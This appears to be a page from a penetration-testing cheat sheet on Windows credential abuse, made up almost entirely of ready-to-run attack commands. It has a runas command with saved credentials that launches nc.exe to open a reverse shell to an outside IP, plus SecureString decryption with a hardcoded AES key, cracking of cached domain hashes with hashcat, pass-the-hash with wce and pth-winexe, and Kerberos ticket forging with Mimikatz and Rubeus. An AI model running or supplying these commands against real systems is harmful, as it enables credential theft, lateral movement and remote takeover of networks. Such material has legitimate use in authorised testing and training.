 
# Exploit Sensitive data
## Passwords reuse
### cmdkey
```
runas /savecred /user:ACCESS\\Administrator "c:\\windows\\system32\\cmd.exe /c \\\IP\\share\\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  
```
## Passwords
### Decipher secure Strings
With the corresponding AES key:
```
$aesKey = (49, 222, 253, 86, 26, 137, 92, 43, 29, 200, 17, 203, 88, 97, 39, 38, 60, 119, 46, 44, 219, 179, 13, 194, 191, 199, 78, 10, 4, 40, 87, 159)
$secureObject = ConvertTo-SecureString -String "76492d11167[SNIP]MwA4AGEAYwA1AGMAZgA=" -Key $aesKey
$decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
$decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
$decrypted
```
### SAM / LSA secrets
#### Bruteforce hash
Crack the LM hashes (if any) using [Ophcrack](http://ophcrack.sourceforge.net/).  
Crack the NT hashes using [JtR](http://www.openwall.com/john/)or [hashcat](http://hashcat.net/).
```
hashcat -m2100 '$DCC2$10240#spot#3407de6ff2f044ab21711a394d85f3b8' /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
#### Pass the Hash
Use the NTLM hash to authenticate 
```
wce.exe -s john-pc:securus:aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f

pth-winexe -U john-pc$%aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f --uninstall //10.11.0.22 cmd

pth-net rpc user -U 'securus\john-pc$%aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9ade0acbdab432f' -S dc1.securus.corp.com
```
#### Over pass the hass / pass the key
Generate Kerberos TGT from hashes (or AES keys)
```
#With Mimikat
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /rc4:<nthash> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:domain.local /aes256:<aes_key> /run:powershell.exe"'

#With Rubeus
.\Rubeus.exe asktgt /domain:domain.local /user:Administrator /rc4:<nthash> /ptt /opsec
.\Rubeus.exe asktgt /domain:domain.local /user:Administrator /aes256:<aes_key> /ptt /opsec
```
### Domain Controllers
